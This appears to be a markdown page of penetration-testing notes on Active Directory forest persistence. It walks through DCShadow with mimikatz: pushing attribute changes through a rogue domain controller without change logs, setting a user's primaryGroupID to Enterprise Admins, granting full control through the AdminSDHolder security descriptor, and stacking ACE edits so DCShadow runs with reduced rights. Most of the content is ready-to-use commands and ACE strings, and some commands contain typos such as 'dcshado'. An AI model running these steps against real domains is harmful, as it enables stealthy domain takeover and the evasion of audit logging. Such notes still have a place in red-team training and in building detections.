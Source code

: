 ```yaml
---
title: Forest Persistence
category: Active Directory
order: 6
---
```


We are going to discuss some ways to do a persistence in a forest root.

# DCShadow

DCShadow temporaly registers a new DC in the target domain and uses it to push attributes like `SID History`, `SPNs` and more over on the specified object without leaving the cange logs for modified object.

The new domain controller is registered by modifying the configuration container, SPNs of an exisiting computer object and couple of RPC services.

Due to the attributes are changed from a domain dontroller, there are no directory change logs on the actual DC for the target object.

By default, domain administrative privileges are required to use DCShadow.

To execute this persistence we need to use two isntances of mimikatz. The first one starts RPC servers with SYSTEM privileges and specify attributes to be modified:

```powershell
!+
!processtoken
lsadump::dcshadow /object:root1user /attribute:Description /value="Hello from DCShadow"
```
And the second one with enough privileges, such as DA, will push the values:

```powershell
lsadump::dcshadow /push
```

> **Note**: DCShadow can be used with minimal permissions by modifyng ACLs, `Nishang` has a script to set this permissions to a user.
>
> `Set-DCShadowPermissions -FakeDC machine-user01 -SAMAccountName root1user -Username user01 -Verbose`

## Set Primary Group ID to Enterprise Admin

Now that we have been discovered how to overwrite attributes of users, we can change the group id of a user to the id of the enterprise administrators or domain admins.

```powershell
lsadump::dcshadow /object:user01 /attribute:primaryGroupID /value:519
```
> **Note**: This makes noise, because every one who looks `net group "Enterpise Admins" /domain` will see that the user user01 is a member.

## Modify ntSecurityDescriptor for AdminSDHolder

We can modify the `ntSecurityDescriptor` for AdminSDHolder to add full control for a user.

```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminADHolder,CN=System,DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
We just need to append a full control ACE from above DA with our users SID.

```powershell
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=corp,DC=local /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>

Modified ACL:

ORIGINAL ACL + FULL CONTROL FOR OUR USER
0:DAG:DAD:PAI(A;;LCRPLORC;;;AU)  .....................  (A;;CCDCLCSWRPWPLOCRSDRCWDWO;;;S-1-5-21-560323961-2315414123-15432421423-1323)
```

> **Note**: We just need to add our SID to the SY/BA/DA ACE result. To see the SID we can use:
>
> `Get-NetUser user01`

## Shadowception

We can even run DCShadow from DCShadow. To do that task we will add 4 ACL and add the following content:

> **Note** We can use `/stack` to stack multiple ACL.

### Domain Object

* List ACL:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
* Append the following ACE:
```
(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;<USER SID>)
(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;<USER SID>)
(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;<USER SID>)
```
* Stack the ACL
```
lsadump::dcshado /stack /object:DC=corp,DC=local /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>
```

### Attacker Computer Object

* List ACL:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=machine01,DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
* Append the following ACE:
```
(A;;WP;;;<USER SID>)
```
* Stack the ACL
```
lsadump::dcshado /stack /object:machine01$ /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>
```

### Target User Object

* List ACL:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=user01,DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
* Append the following ACE:
```
(A;;WP;;;<USER SID>)
```
* Stack the ACL
```
lsadump::dcshado /stack /object:targetuser01 /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>
```

### Sites Configuration Object

* List ACL:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Sites,CN=Configuration,DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
* Append the following ACE:
```
(A;CI;CCDC;;;<USER SID>)
```
* Stack the ACL
```
lsadump::dcshado /stack /object:CN=Sites,CN=Configuration,DC=corp,DC=local /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>
```

Finally we just start the server:

```
lsadump::dcshadow
```

And on the other session with DA privileges:

```
lsadump::dcshadow /push
```